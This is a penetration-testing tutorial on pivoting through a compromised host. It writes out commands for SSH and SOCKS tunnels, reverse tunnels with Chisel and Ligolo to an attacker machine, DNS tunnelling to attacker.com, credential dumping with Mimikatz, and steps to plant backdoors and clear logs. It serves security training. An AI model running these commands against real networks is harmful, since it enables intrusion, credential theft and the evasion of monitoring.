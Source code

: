 # Pivoting in Penetration Testing

## Introduction
Pivoting is a crucial technique in penetration testing that allows an attacker to use a compromised system as a bridge to access an otherwise restricted network. This enables lateral movement within an organization’s internal infrastructure. By leveraging pivoting, attackers can bypass security controls like firewalls and access sensitive internal resources.

## Types of Pivoting
1. **Network Pivoting** - Routing traffic through a compromised system to access internal networks.
2. **Port Forwarding** - Exposing services from an internal machine to the attacker's machine.
3. **VPN Pivoting** - Creating a VPN connection to route all traffic through the compromised host.
4. **SOCKS Proxy Pivoting** - Using a SOCKS proxy to tunnel traffic through a compromised host.
5. **Metasploit Pivoting** - Utilizing Metasploit's autoroute and SOCKS modules.
6. **Plink (PuTTY Link) Pivoting** - Using Plink for SSH tunneling.
7. **SSHuttle Pivoting** - Transparently routing traffic through an SSH connection.
8. **RDP Pivoting** - Using Remote Desktop Protocol (RDP) to access internal machines.
9. **ICMP Tunneling** - Encapsulating data within ICMP packets.
10. **DNS Tunneling** - Exfiltrating or tunneling data over DNS queries.

## Step-by-Step Guide to Pivoting

1. Compromise an Initial Host
  - Gain access to an external system using exploits, phishing, or credentials.
  - Obtain a shell or remote desktop access.

2. Identify Network Interfaces
  - Check available interfaces and network connections:
    ```bash
    ip a
    ip route
    ifconfig
    netstat -rn
    ```

  Identify internal IP ranges that may indicate private networks.

3. Enumerate Internal Network
  - Scan internal subnets using: `nmap -sP 10.10.0.0/24`
  - Check for active services: `nmap -sV -p 80,443,3389,445 10.10.0.10`
  - Extract credentials if possible (e.g., from memory dumps or configuration files).

4. Establish Pivoting
    a. SSH Tunneling (Dynamic and Local Port Forwarding)
        - Create a SOCKS proxy to route traffic: `ssh -D 1080 -N user@compromised-host`
        - Use local port forwarding to expose internal services: `ssh -L 8080:10.10.0.10:80 user@compromised-host`
    b. ProxyChains
        - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
        - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
    c. Chisel (Fast TCP/UDP Tunneling)
        - On the attacker's machine (server): `./chisel server -p 8080 --reverse`
        - On the compromised machine (client): `./chisel client 192.168.1.100:8080 R:1080:socks`
        - Use ProxyChains with Chisel for further tunneling.
    d. Ligolo (Auto Route Creation)
        - On attacker's machine: `./ligolo -reverse -listen :9090`
        - On compromised machine: `./ligolo -connect attacker-ip:9090`
    e. Metasploit Pivoting
        - Use autoroute to add routes through the compromised system: `run autoroute -s 10.10.0.0/24`
        - Use socks4a module to enable ProxyChains:
          ```bash
          use auxiliary/server/socks4a
          set SRVPORT 1080
          exploit
          ```
    f. SSHuttle Pivoting
        - Transparently route traffic through an SSH connection: `sshuttle -r user@compromised-host 10.10.0.0/24`
    g. Plink (PuTTY Link) Pivoting
        - Windows-based SSH tunneling: `plink.exe -D 1080 -N user@compromised-host`
    h. RDP Pivoting
        - Use RDP to connect to internal machines: `xfreerdp /u:user /p:password /v:10.10.0.10`
    i. ICMP Tunneling
        - Use tools like icmptunnel to route traffic over ICMP: `./icmptunnel -s attacker-ip`
    j. DNS Tunneling
        - Use iodine to tunnel traffic over DNS: `iodine -f -P password -r attacker.com`
  
5. Routing Traffic Through Compromised Host
  - Use Metasploit’s autoroute to configure routes: `run autoroute -s 10.10.0.0/24`
  - Scan the internal network from Metasploit: `run post/multi/manage/autoroute`

6. Exploit Further and Move Laterally
  - Use credentials to access other machines (Pass-the-Hash, RDP, SMB, etc.).
  - Dump credentials using Mimikatz:
    ```bash
    mimikatz.exe
    sekurlsa::logonpasswords
    ```
  - Use SMB relay attacks to gain further access.

7. Maintain Access and Cover Tracks
  - Set up persistent backdoors (e.g., SSH keys, scheduled tasks).
  - Clear logs and disable security monitoring where possible.

## Conclusion
Pivoting is a powerful technique in penetration testing that allows an attacker to move deeper into a target network. Mastering tools like SSH, Chisel, Ligolo, Metasploit, and ProxyChains enables penetration testers to navigate restricted environments effectively.
